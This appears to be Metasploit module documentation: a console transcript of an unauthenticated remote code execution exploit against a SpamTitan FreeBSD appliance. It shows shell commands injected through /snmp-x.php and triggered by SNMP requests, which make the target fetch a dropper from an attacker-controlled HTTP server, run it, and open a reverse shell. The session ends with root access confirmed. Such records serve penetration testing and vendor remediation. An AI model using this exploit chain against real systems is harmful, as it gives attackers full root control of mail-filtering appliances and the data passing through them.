 ```

   Id  Name
   --  ----
   1   FreeBSD Dropper (x64)


msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/AW6l3kjAO2B
[*] Local IP: http://192.168.1.75:8080/AW6l3kjAO2B
[*] Generated command stager: ["fetch -qo /tmp/BrnPtJiQ http://172.16.60.1:8080/AW6l3kjAO2B", "chmod +x /tmp/BrnPtJiQ", "/tmp/BrnPtJiQ", "rm -f /tmp/BrnPtJiQ"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/BrnPtJiQ\ http://172.16.60.1:8080/AW6l3kjAO2B&'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Client 172.16.60.101 (fetch libfetch/2.0) requested /AW6l3kjAO2B
[*] Sending payload to 172.16.60.101 (fetch libfetch/2.0)
[+] SNMP Get-Request response (status=noError): [1] 16531
[*] Command Stager progress -  52.21% done (59/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'chmod\ \+x\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16561
[*] Command Stager progress -  71.68% done (81/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c '/tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16590
[*] Command shell session 2 opened (172.16.60.1:4444 -> 172.16.60.101:16026) at 2020-10-28 15:57:34 +0100
[*] Command Stager progress -  83.19% done (94/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'rm\ -f\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16619
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
^C
Abort session 2? [y/N]  y

[*] 172.16.60.101 - Command shell session 2 closed.  Reason: User exit
```
